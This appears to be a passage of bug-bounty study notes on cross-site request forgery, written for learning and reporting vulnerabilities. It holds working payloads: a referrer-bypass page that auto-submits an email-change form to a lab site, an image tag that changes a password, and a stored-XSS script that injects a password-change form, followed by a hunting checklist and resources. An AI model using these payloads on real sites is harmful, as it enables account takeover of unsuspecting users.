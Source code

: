 ```html
```

- Referrer Header bypass
```html
<html>
    <head>
    <!--push state func appending a relative path to the referrer header, here is a query param-->
    <script>history.pushState("", "", "/?{TARGET-DOMAIN}")</script>
    </head>
    <body>
        <h1>Hunter!</h1>
        <form action="https://0afa0013044e1bb781448e94006d00d0.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="hunter6@test.ca">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- GET-CSRF
`<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">` as an image posted to a forum. This way, any user who views the forum page would be affected
- using Stored XSS, an attacker can submit a stored-XSS payload there to make any forum visitor execute the attacker’s malicious script
```javascript
<script>
 document.body.innerHTML += "<form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>";
 document.getElementById("csrf-form").submit();
</script>
```

# Finding Your First CSRF!
1. Spot the state-changing actions on the application and keep a note on their locations and functionality.
2. Check these functionalities for CSRF protection. If you can’t spot any protections, you might have found a vulnerability
3. If any CSRF protection mechanisms are present, try to bypass the protection by using the protection-bypass techniques
4. Confirm the vulnerability by crafting a malicious HTML page and visiting that page to see if the action has executed.
5. Think of strategies for delivering your payload to end users.
6.  Draft your first CSRF report!
# Resources
- [Bug Bounty Bootcamp book](https://www.amazon.eg/-/en/Bug-Bounty-Bootcamp-Reporting-Vulnerabilities/dp/1718501544)
- [Rana Kalil's Video - Cross-Site Request Forgery (CSRF) | Complete Guide](https://www.youtube.com/watch?v=7bTNMSqCMI0&list=PLuyTk2_mYISKNFqao_NBzYOWvJFqhVmXN&index=1&t=1509s)
- [OWASP Cheat Sheet Series- CSRF Prevention Cheat Sheet ](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

